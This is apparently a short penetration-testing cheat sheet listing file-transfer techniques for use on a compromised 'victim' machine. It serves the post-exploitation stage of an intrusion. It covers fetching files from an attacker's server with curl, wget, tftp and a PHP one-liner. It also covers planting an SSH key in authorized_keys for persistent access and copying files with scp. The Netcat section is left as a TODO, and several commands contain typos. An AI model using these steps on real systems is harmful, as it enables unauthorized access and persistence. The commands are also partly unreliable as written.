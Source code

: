 #### Python simple HTTPServer
***python -m SimpleHTTPServer [port]

##### curl
curl -O http://[my_server_ip:port]/fileName

##### wget
wget http://[my_server_ip:port]/fileName

##### tftp
tftp [my_server_ip]
tftp > get myFile
OR
tftp [my_server_ip] <<< "get file"

##### php
echo "<?php file_put_contents('nameOfFile', fopen('http://[my_server_ip:port/fileName', 'r')); ?>" file_one_server.php

####SSH-SCP
***ssh key generation flow***
- ssh-keygen -t rsa -C "your@email.com"
- add *.pub public key to auhorized_keys on victim server
- echo "ssh-rsa ASD3NbN[..]vlldor..." > authorized_keys
- log in ssh -i private_key [name]@[victim_machine_ip] -p [port]

#######SCP
***copy file***
scp /your/file/path.ext [name]@[victim_server_ip]:/your/file/destination/path.ext
***copy dir***
scrp -r /your/dir/path [name]@[victim_server_ip]:/your/dir/destination/path

####Netcat
# TODO
